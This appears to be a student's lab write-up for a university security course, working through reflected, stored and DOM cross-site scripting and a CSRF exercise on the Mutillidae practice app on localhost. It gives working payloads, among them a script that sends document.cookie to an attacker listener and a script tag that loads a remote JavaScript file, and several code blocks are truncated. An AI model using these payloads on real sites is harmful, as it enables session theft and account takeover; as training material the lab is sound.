






FIT5003 Cross-Site Scripting XSS
Week 10 Lab - XSS
Environment Setup
Start the XAMPP server by using code below:
1 | sudo /opt/lampp/lampp s |
3 Types of XSS
Main damages:
access cookies, session tokens, or other sensitive information.
rewrite HTML page.
There are 3 types of XSS: Reflected, Stored, DOM.
Reflected XSS

image from https://hydrasky.com/networksecurity/cross-site-scriptingxss-attack/
Task One: Popup windows
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Reflected(First order)’ –> ‘DNS Lookup’
Mission:
Enter a small script into the “Hostname/IP” input to popup window to do some alert.
Answer:
We firstly check the source for this website by pressing “ctrl+u”. Then we can find the input that we just type. For example, I entered “fit5003”:
1 | <div class="report-header" ReflectedXSSExecutionPoint="1">Results for fit5003</div><pre class="report-header" style="text-align:left;">Server: 127.0.1.1 |
So we can see that this input will be added inside the <div> block. If we replace “fit5003” by some malicious script, the website will immediately execute the script. And this is reflected XSS.
I will use the following code to attack the website:
1 | <script>alert("So long and thanks for all the fish!")</script> |
Results:

Task Two: Display Cookie
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Reflected(First order)’ –> ‘DNS Lookup’
Mission:
Display a specific user’s cookie.
Answer:
- Register with a username & password in register page. For example, I use Hitchhiker & 42 as username & password.

- Login as Hitchhiker. Go to DNS LOOKUP page, and submit the script below:
1 | <script>alert(document.cookie)</script> |
Results:

Task Three: Attack from Attacker’s port
I’m too lame to open another VM, so I just quickly go through this part without the result image.
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Reflected(First order)’ –> ‘DNS Lookup’
Mission:
Send a specific user’s cookie to attacker’s server.
Ans:
Go to DNS LOOKUP page, and submit the script below:
1 | <script>document.write("<img src=http://127.0.0.1:5555?c="+document.cookie+">");</script> |
And the cookie will be sent to attacker.
Advanced Reflected XSS
We are now using Reflected XSS to seduce a client to download and execute a JavaScript file on the attacker’s server.
To better understand the process, we firstly open the interpreter of burp suit. We can capture the GET request to http://localhost/mutillidae/set-up-database.php.
We can then create a malicious script to execute our command.
1 | function resetDB() |
We save this file as resetDB.js.
Task: Server side download a file
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Reflected(First order)’ –> ‘DNS Lookup’
Mission:
Seduce a client to download and execute a JavaScript file on the attacker’s server.
Answer:
- Run
1 | python3 -m http.server 9090 |
at the location of attacker’s server to open the port.
Register a new account. This is for checking if the attack succeed or not.
Go to DNS LOOKUP page, and enter the script:
1 | <script src = "http://127.0.0.1:9090/resetDB.js"> |
- After submit, we can check the existence of the new account that we create in step 2.
Results:

This means the database has been reset, which means the resetDB.js has been successfully executed.
Stored XSS
Before I write this article, I’ve done all the tasks inside Lab 10. Unfortunately, I found that I can’t connect to the database now. So I can only describe the following attacks. But I will still provide the code and explanation.

Stored XSS, image from https://hydrasky.com/network-security/crosssite-scriptingxss-attack/
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Persistent(Second Order)’ –> ‘Add to your blog’
Missions:
Popup window
Steal cookie
Answers:
Register as a new user.
Go Add to your blog page, submit script below:
1 | <script>alert("Hello!")</script> |
When we open the blog, the “Hello!” window will popup.
- If we change the script to:
1 | <script>alert(document.cookie)</script> |
then the content of the popup window will be the user’s cookie.
DOM XSS
Practice version:
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘Persistent(Second Order)’ –> ‘Add to your blog’
‘OWASP 2017’ –> ‘A7 – Cross-Site Scripting (XXS)’ –> ‘DOM-based’ –> ‘HTML5 Web Storage’
‘Others’ –> ‘Data Capture Pages’ –> ‘View Captured Data’
Mission 1: Add blog to Add to your blog and leak all the local storage.
Answers:
1 | <script> |
add this to the blog, and check Captured Data Page.
Mission 2: Add values to HTML5 Web Storage
Answers:
1 | <script> |
add this to the blog, and check HTML5 page.
Cross Site Request Forgery(CSRF)

Cross Site Request Forgery Attacks (image from https://hydrasky.com/network-security/crosssite-request-forgery-csrf/)
Script to add in Add Blog page:
1 | <form id="f" |